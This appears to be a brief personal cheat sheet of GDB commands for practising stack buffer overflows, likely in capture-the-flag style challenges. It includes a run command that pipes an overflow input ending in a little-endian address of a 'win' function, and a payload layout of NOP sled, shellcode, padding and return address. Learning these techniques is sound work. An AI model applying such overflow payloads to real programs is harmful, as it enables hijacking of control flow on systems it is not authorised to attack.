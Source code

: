# GDB

- set disassembly-flavor intel -> 
- disassemble main - get all instructions from a function
- x win / p win -> get address of the "win" function
- - break *<address> - set breakpoint
- r < <(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x67\x05\x40") -> run program with input interpreted as hex. !ATTENTION! little endian vs big endian
- info registers -> check registers ( here while breakpoint was hit)

## Payload format
- (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)


